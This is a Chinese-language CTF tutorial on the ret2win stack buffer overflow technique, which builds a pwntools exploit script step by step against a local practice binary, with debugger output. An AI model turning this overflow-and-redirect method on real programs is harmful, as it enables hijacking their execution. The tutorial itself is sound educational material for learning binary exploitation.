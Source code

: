 ```yaml
---
title: 'ret2win'
date: '2023-08-07'
lastmod: '2023-08-30'
tags: ['PWN', 'Stack']
draft: false
summary: '最基本的二进制漏洞利用'
authors: ['default']
---
```


**ret2win** 中有一个 `win()` 函数（或等效函数）；一旦你成功地将执行重定向到那里，
你就完成了挑战。

为了实现这一点，我们必须覆盖 EIP，但覆盖成我们想要的特定值。

为此，我们需要知道：

- 直到我们开始覆盖返回地址（EIP）为止的 `溢出 Padding`
- 我们想要将 EIP 覆盖成什么值

:::warning
当我说「覆盖 EIP」时，我的意思是覆盖压入到 EIP 中的已保存的返回地址。
EIP 寄存器 并不位于栈上，因此不会被直接覆盖。
:::

LINK

## 0x01 计算溢出 Padding

这可以通过简单的试验和错误找到。我们可以发送可变数量的字符，将 `Segmentation Fault`
消息和 pwndbg 结合使用，来判断我们何时覆盖了 EIP 。有一种比简单的暴力破解更好的
方法：[德布鲁因（De Bruijn）序列](https://www.cubeyond.net/de-bruijn-sequences/)，为了方便起见，现在我们直接使用已经计算出的溢出 Padding。

:::info
除了覆盖 EIP 之外，还可能会因其他原因而出现分段错误。使用调试器确保
`溢出 Padding` 正确。
:::

这里的溢出 Padding 为 52 字节的偏移量。

## 0x02 确定 flag() 函数地址

现在我们需要在二进制文件中找到 `flag()` 函数的地址，这很简单：

```
$ pwndbg vuln
$ i fun
[...]
0x080491c3  flag
[...]
```

:::info
`i fun` 代表 **i**nfo **f**unction，可以列出分析中发现的函数。
:::

可以看到这里的 `flag()` 函数位于 `0x080491c3` 。

## 0x03 编写地址

最后一个难题是弄清楚如何发送我们想要的地址。在 [二进制漏洞利用简介](https://www.cubeyond.net/stack-introduction/)中，
我们发送的 `A` 变成了 `0x41` —— 这是 `A` 的 `ASCII 码` 。所以解决方案
很简单——我们只要找到 `ASCII` 码为 `0x08`、`0x04`、`0x91` 和 `0xc3` 的
字符即可。

这比你想象的要简单得多，因为我们可以在 Python 中将它们指定为
十六进制：

```python
address = '\x08\x04\x91\xc3'
```

这使得事情变得容易得多。

:::tip
使用 `xxd` 可以以二进制或十六进制显示文件的内容：

$ echo '\x41\x41\x41\x41' | xxd
00000000: 4141 4141 0a        AAAA.

$ echo 'AAAA' | xxd
00000000: 4141 4141 0a        AAAA.
:::

## 0x04 编写漏洞利用脚本

现在我们知道了溢出 Padding 和想要覆盖的值，我们可以使用 [pwntools](https://github.com/Gallopsled/pwntools) 与二进制文件
交互，编写漏洞利用脚本。

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

# 创建一个新进程
p = process('./vuln')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

# 输出「Exploited!」字符串则说明我们成功了
p.sendline(payload)

p.interactive()
```

如果你直接运行上面的脚本，就会发现一个小问题：它没有输出 `Exploited` 。为什么？
我们可以用调试器来检查一下。添加 hook `pwndbg` 的代码，以及 `pause()`，以便
我们可以在想发送 `payload` 的时候发送 `payload` 。

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.terminal = ['alacritty', '-e']

p = process('./vuln')

# 下面这条指令可以在启动 pwndbg 后自动下断点
# 为了调试程序的问题，我们在 `unsafe` 的 ret 指令返回时设断点
gdb.attach(p, 'b *0x080491aa')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

pause()
p.sendline(payload)

p.interactive()
```

现在让我们使用 `python exp.py` 运行该脚本，它将自动打开一个 `pwndbg` 窗口：

让我们在 `unsafe()` 返回时中断并读取返回地址的值：

```
$ disass unsafe
$ c

<< press any button on the exploit terminal interface >>

$ x/20wx $esp
0xffffd7dc:	0xc3910408
[...]
```

`0xc3910408` ，看起来熟悉吗？这是我们试图发送的地址，只不过字节顺序被反转了，
而这种反转的原因是 [字节顺序](https://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F) 使用大端序的系统将最高有效字节（具有最大值的字节）
存储在最小的内存地址处，这就是我们发送它们的方式。使用小端序的系统的做法恰恰相反，
这是有 [原因](https://softwareengineering.stackexchange.com/questions/95556/what-is-the-advantage-of-little-endian-format) 的，并且我们遇到的大多数二进制文件都是小端序的。就我们而言，只要知道
字节在使用小端序的可执行文件中 *payload 以相反的顺序存储* 就可以了。

## 0x05 确定字节顺序

`pwntools` 附带了一个名为 `checksec` 的工具，用于二进制分析。我们可以直接在 `pwndbg`
中使用这条指令：

```
$ checksec
[...]
Arch:     i386-32-little
[...]
```

因此可以确定，我们的程序是 32-bit 小端序的。

## 0x06 反转字节顺序

解决方法很简单：反转字节序

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

如果你现在运行它，它将成功输出 `Exploited!` ：

```
$ python exp.py
[+] Starting local process './vuln' argv=[b'./vuln'] : pid 9645
[DEBUG] Sent 0x39 bytes:
[...]
[*] Switching to interactive mode
[DEBUG] Received 0x1b bytes:
[...]
Overflow me
Exploited!!!!!
```

我们已经成功改变了程序的执行流程，调用了 `flag()` 函数！

## 0x07 Pwntools 和 字节顺序

毫不奇怪，你并不是第一个想到「能否使字节顺序书写变得更简单」的人。
幸运的是，`pwntools` 有一个内置的 `p32()` 函数可供使用！

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

改为：

```python
payload += p32(0x080491c3)
```

这样就简单多了。唯一需要注意的是它返回字节而不是字符串，因此你必须
将溢出 Padding 设置为字节字符串：

```python
payload = b'A' * 52  # 注意 "b"
```

否则你会得到一个这样的报错：

```
TypeError: can only concatenate str (not "bytes") to str
```

## 0x08 最终的 Exploit 脚本

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

p = process('./vuln')

payload = b'A' * 52
payload += p32(0x080491c3)

p.sendline(payload)

p.interactive()
```

